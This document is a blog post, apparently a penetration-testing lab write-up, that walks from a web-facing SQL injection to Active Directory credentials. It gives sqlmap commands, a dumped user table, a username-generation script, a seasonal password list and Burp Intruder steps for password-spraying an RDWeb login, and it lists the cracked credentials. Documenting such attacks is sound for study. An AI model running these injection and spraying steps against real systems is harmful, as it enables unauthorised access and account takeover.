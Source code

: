 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)

``
nmap -T4 -sV -Pn -p80,443 10.7.12.0/24
``

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

```
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: 10.7.12.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.7.12.12/mvc/
Cookie: __AntiXsrfToken=e1e188c81f744fad9a0d59ef8c17af71
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1  
```

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.

```
sqlmap -r product.req --level=5 --risk=3
```

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

```
Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+
```

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:

```
POST /RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx HTTP/1.1
Host: 10.7.12.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx
Cookie: TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=DOMAIN%5CUSERNAME&MachineType=private&WorkSpaceID=RDS02.lab.local
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 293

WorkSpaceID=RDS02.lab.local&RDPCertificates=&PublicModeTimeout=20&PrivateModeTimeout=240&WorkspaceFriendlyName=Work%2520Resources&EventLogUploadAddress=&RedirectorName=RDS02.lab.local&ClaimsHint=&ClaimsToken=&isUtf8=1&flags=4&DomainUserName=LAB%5Cavasquez&UserPass=PASSWORD&MachineType=private
```


```
import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))
```

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!

Intruder: 
-you can use the "cluster bomb" attack
-remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
-we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
-make sure to Always Follow Redirection in the options tab

User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!



[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
